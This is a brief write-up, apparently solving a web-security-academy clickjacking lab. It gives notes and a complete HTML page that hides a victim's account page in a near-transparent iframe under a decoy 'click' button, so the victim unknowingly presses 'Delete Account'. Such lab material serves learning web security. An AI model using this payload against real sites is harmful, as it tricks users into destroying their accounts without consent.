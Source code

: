 # 1 - Basic With CSRF Token

### Notes

We need to craft an HTML page with a "click" button overlaid over an iframe containing the user's "My Account" page. The button should be absolutely positioned over the iframe, with a lower z-index, such that when the user clicks the button they actually click the "Delete Account" button beneath it.

```html
<head>
  <style>
    #decoy_website {
      position: absolute;
      width: 300px;
      height: 400px;
      z-index: 1;
    }

    #decoy_website button {
      left: 50px;
      position: absolute;
      top: 486px;
    }

    #target_website {
      position: relative;
      width: 128px;
      height: 1200px;
      opacity: 0.00001;
      z-index: 2;
    }
  </style>
</head>

<body>
  <div id="decoy_website">
    <button>click</button>
  </div>
  <iframe id="target_website"
    src="https://0aeb005a04d050cec0cf7cbb00fa00ce.web-security-academy.net/my-account"></iframe>
</body>
```
